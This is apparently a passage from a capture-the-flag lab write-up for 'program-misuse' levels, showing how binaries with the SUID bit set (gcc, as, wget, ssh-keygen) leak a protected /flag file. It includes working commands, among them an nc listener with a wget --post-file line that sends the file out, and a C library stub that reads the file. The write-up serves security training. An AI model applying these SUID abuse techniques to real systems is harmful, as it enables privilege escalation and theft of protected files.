 We can compile the C code using `gcc`.

```
hacker@program-misuse~level48:~$ gcc -L / babysuid48.c
```

Since we are including `/flag`, which we do not have access to the compilation is going to result in an error. However, within the error messages, we can read the flag.

&nbsp;

## as

> I just set the SUID bit on /usr/bin/as.\
> Try to use it to read the flag!

The `as` utility is an assembler for programming languages.

```
hacker@program-misuse~level49:/$ as /flag 
```

&nbsp;

## wget

> I just set the SUID bit on /usr/bin/wget.\
> Try to use it to read the flag!

Let us set up a `nc` listener. 

```
hacker@program-misuse~level50:/$ nc -nlvp 80
Listening on 0.0.0.0 80
```

Let's now POST the `/flag` file to our listener.

```
hacker@program-misuse~level50:/$ wget --post-file=/flag http://localhost
--2024-05-21 16:00:46--  http://localhost/
Resolving localhost (localhost)... ::1, 127.0.0.1
Connecting to localhost (localhost)|::1|:80... failed: Connection refused.
Connecting to localhost (localhost)|127.0.0.1|:80... connected.
HTTP request sent, awaiting response... 
```

If we check back on the `nc` listener, we should have received the flag.


&nbsp;

## ssh-keygen

```c
include <stdio.h>

int C_GetFunctionList()
{
        FILE *fptr;
        fptr = fopen("/flag", "r");
        char myString[100];
        fgets(myString, 100, fptr);
        printf("%s", myString);
        fclose(fptr);
}

int main()
{
        puts("Hello");
}
```
